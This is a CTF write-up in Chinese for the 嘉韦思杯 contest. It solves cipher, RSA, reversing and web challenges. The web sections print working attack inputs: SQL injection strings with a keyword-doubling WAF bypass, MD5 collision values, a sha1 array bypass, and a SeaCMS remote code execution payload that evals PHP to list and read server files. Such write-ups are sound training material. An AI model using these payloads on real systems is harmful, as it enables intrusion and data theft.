

# 嘉韦思杯 writeup

可以称得上是欢乐赛了，总体难度不大，所以将所有人 wp 整理成一份

## 土肥原贤二

常规 sql 注入，注入点 id，`order by`发现有 4 列，先猜一下 flag 表的 flag 字段，直接注入`id = ' union select 1,2,3,flag from flag`得到结果

## 吴佩孚

base64 解出来是 JSfuck，然后在 F12 里执行

## 日军空袭

多层 base64，解出来是 key=5 的栅栏密码

## 飞虎队

希尔密码，根据 key 求出逆矩阵，然后与 str 做乘法，参考http://2-dreamfever.lofter.com/post/1d226cf1_748daf4
求逆矩阵这里，matlab 和 octave 都是小数，最后解不出来
再转换成字符串

## 戴星炳

写一个 py

```python
import requests as req
import re
a = req.get("http://47.103.43.235:82/web/a/index.php")
res = re.findall('<p>(0.*)</p>',a.content.decode())
# input(res[0])
res = eval(res[0])
print(res)
a = req.post("http://47.103.43.235:82/web/a/index.php",{"result":res})
print(a.content)
```

## 大美晚报

下载二维码 binwalk 跑一下，得到一个带密码的压缩包，提示是 QQ 号，果断爆破，用 ARCHPR 或者 Ziperello 都可以，但是 fcrackzip 似乎效果不好

## 潘汉年

变形的凯撒，用密文前 4 位和 flag 做差，发现相差`4567`

```python
str = "bg[`sZ*Zg'dPfP`VM_SXVd"
for i in range(len(str)):
    print(chr(ord(str[i])+4+i),end='')

out: flag{c4es4r_variation}
```

## 袁殊

标准 RSA

```python
import gmpy2
from Crypto.Util.number import *
N = 0xA9BD4C7A7763370A042FE6BEC7DDC841602DB942C7A362D1B5D372A4D08912D9
p = 273821108020968288372911424519201044333
q = 280385007186315115828483000867559983517
e = 65537
f = open('fllllllag.txt','rb')
flag = bytes_to_long(f.read())
phi = (p-1)*(q-1)
d = gmpy2.invert(e, phi)
p = gmpy2.powmod(flag, d, N)
text = long_to_bytes(p)
f = open('flag.txt','wb')
f.write(text)
```

## 晴气庆胤

php 代码

```php
(string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])
```

md5 碰撞

```
a = %D11%DD%02%C5%E6%EE%C4i%3D%9A%06%98%AF%F9%5C%2F%CA%B5%87%12F%7E%AB%40%04X%3E%B8%FB%7F%89U%AD4%06%09%F4%B3%02%83%E4%88%83%25qAZ%08Q%25%E8%F7%CD%C9%9F%D9%1D%BD%F2%807%3C%5B%D8%82%3E1V4%8F%5B%AEm%AC%D46%C9%19%C6%DDS%E2%B4%87%DA%03%FD%029c%06%D2H%CD%A0%E9%9F3B%0FW%7E%E8%CET%B6p%80%A8%0D%1E%C6%98%21%BC%B6%A8%83%93%96%F9e%2Bo%F7%2Ap
b = %D11%DD%02%C5%E6%EE%C4i%3D%9A%06%98%AF%F9%5C%2F%CA%B5%07%12F%7E%AB%40%04X%3E%B8%FB%7F%89U%AD4%06%09%F4%B3%02%83%E4%88%83%25%F1AZ%08Q%25%E8%F7%CD%C9%9F%D9%1D%BDr%807%3C%5B%D8%82%3E1V4%8F%5B%AEm%AC%D46%C9%19%C6%DDS%E24%87%DA%03%FD%029c%06%D2H%CD%A0%E9%9F3B%0FW%7E%E8%CET%B6p%80%28%0D%1E%C6%98%21%BC%B6%A8%83%93%96%F9e%ABo%F7%2Ap
```

## 76 号

32 位小端 elf，IDA 发现 main 损坏，看了看文件名，以为会有混淆啥的，然后发现导致问题的是 main 中一个 jmp 跳转了-1 也就是，跳转后程序将从 jmp-1 的第二字节 0xFF(-1)继续执行，这里导致 ida 分析失败，删除 ida 分析的 main 函数，手动从 jmp-1 跳转到的位置添加函数(因为前半段没啥东西)。修改前后对比：


分析逻辑，输入，804850 检查，输出正确/错误。检查函数内部看着挺吓人，不过其实逻辑比较简单，每一轮循环依次检查字符串中的一个字符，在 v5 数组中打一个点，然后根据当前位置的字符走 switch，swith 中的每一个分支会判断当前正在检查第几个字符，并于写死在代码中的值比较，并且比较 v5 中打点的位置是否是代码中写死的一个值。

```c
while ( 2 )
  {
    memset(v5, 0, sizeof(v5));
    v3 = *(_BYTE *)(a1 + v2);
    v5[(v3 + 64) % 128] = 1;
    if ( (unsigned __int8)(v3 - 10) <= 0x70u )
    {
      switch ( v3 )
      {
        case '\n':
          return v2 == 13 && v5[74] != 0;
        case '0':
          if ( v2 || !v5[112] )
            return 0;
          v2 = 1;
          continue;
        case '1':
          if ( v2 == 14 && v5[113] )
            goto LABEL_12;
          return 0;
        case '2':
          if ( v2 == 20 && v5[114] )
            goto LABEL_15;
          return 0;
        case '3':
          if ( v2 != 89 || !v5[115] )
            return 0;
          v2 = 90;
          continue;
        case '4':
          if ( v2 != 15 || !v5[116] )
            return 0;
          v2 = 16;
          continue;
        case '5':
          if ( v2 != 14 || !v5[117] )
            return 0;
```

这里其实仿佛是冗余，switch 走到哪个分支是按照正在检查的字符 ascii 码决定的，而 v5 中打点的位置实际上和字符 ascii 是线性关系。但并不是，其实代码中一部分 v5 和 switch 是不匹配的，这些是正确答案不能到达的区域。例如：

```c
case 'c':
  if ( v2 != 32 || !v5[33] )//!!!
    return 0;
  v2 = 33;
  continue;

```

去掉这些障眼法，每一个位置上的字符就几乎是唯一的了……几乎 V2==12 的有三个结果，其中一个是假的，而剩下两个

```c
case 'k':
  return v2 == 12 && v5[43] != 0;
case '6':
  if ( v2 != 12 || !v5[118] )
    return 0;
  v2 = 13;
  continue;
case '\n':
  return v2 == 13 && v5[74] != 0;
```

当\_getline 返回的字符串最后为\n 而非\0 时本题有两个可行解

## 梅津美治郎

运行之后有特征字符串`ROBOTIC AUTHENTICATION SYSTEM`，google 到原题，复现之
https://depier.re/hacklu_2K13_roboauth_reverse_150/
IDA 略微分析程序逻辑，main 函数前后干了点事情，不过不重要，scanf 输入的第一个密码和另一段空间做了 strcmp，动调直接抠出比较的字符串

继续往下走，然后在某个递归函数中经过几层之后，出现了一个断点，手动过掉断点或者在原始文件中 patch 掉断点之后程序在显示 Please enter the second Password:提示之后就会直接结束，推测这里是用断点控制程序流程，而断点被调试器接收了，所以程序没收到信号导致程序结束。不过有个细节是这过程中没有从命令行接收输入，也就是说完全可以不调试把第一个密码过掉，然后在输入第二个密码等待用户输入的时候，再把调试器 attach 上去。当然某些调试器可以自动的选择将用户程序的断点信号传递给用户程序处理。回到 ida

推测选中的函数是判断第二组密码的，逻辑也很清晰，a2 串异或 2 然后与 a1 逐位比较


所以将 u1nnf2lg 与 2 异或得到的就是 flag 的后半部分

## 冈村宁次

第一题的加强版，id 是 base64 之后逆置，waf 会删除 or、select、union 等词，复读绕过，空格用/\*\*/绕过

```
1/**/ununionion/**/seselect/**/1,2,3,flag,5,6/**/from/**/flag
```

## 作战计划

seacms 远程代码执行，freebuf 上面有漏洞分析，拿来复现
https://www.freebuf.com/vuls/150042.html
扫描根目录文件

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ev&9[]=al($_POST[asdasd]);&asdasd=var_dump(scandir('/'));
```

读取 flag

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ev&9[]=al($_POST[asdasd]);&asdasd=echo(file_get_contents('/flag.txt'));
```

## 池步洲

得到源码文件 index.phps

```php
sha1($_POST['name']) === sha1($_POST['password'])
```

利用 php 的 sha1 对数组参数返回 false，传 name[]=1&password[]=2 进去
